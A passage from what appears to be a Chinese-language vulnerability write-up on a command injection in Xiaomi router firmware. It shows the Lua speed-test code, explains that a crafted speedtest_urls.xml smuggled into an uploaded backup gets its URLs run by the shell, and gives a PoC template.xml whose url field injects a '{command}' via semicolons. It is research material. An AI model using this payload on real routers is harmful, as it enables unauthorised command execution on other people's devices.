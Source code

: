 ```
        if download then
            result["download"] = download
            result["bandwidth"] = tonumber(string.format("%.2f", 8 * download/1024))
            XQPreference.set("BANDWIDTH", tostring(result.bandwidth), "xiaoqiang")
        else
            code = 1588
        end
        if code ~= 0 then
           result["msg"] = XQErrorUtil.getErrorMessage(code)
        end
        os.execute("/etc/init.d/miqos start")
    end
    
    result["code"] = code
    LuciHttp.write_json(result)
end
function downloadSpeedTest()
    local speedtest = "/usr/bin/download_speedtest"
    local speed
    -- 直接调用sh文件
    for _, line in ipairs(LuciUtil.execl(speedtest)) do
        if not XQFunction.isStrNil(line) and line:match("^avg rx:") then
            speed = line:match("^avg rx:(%S+)")
            if speed then
                speed = tonumber(string.format("%.2f",speed/8))
            end
            break
        end
    end
    return speed
end
```

所以，我们只需要构造恶意的`speedtest_urls.xml`文件，构造备份文件，上传备份文件，然后调用网络测试相关的接口，即可以实现命令注入。

### poc

> template.xml

```
<?xml version="1.0"?>
<root>
	<class type="1">
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
		<item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
	</class>
	<class type="2">
		<item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt; exit; wget http://192.168.31.1  "/>
	</class>
	<class type="3">
		<item uploadurl="http://www.taobao.com/"/>
```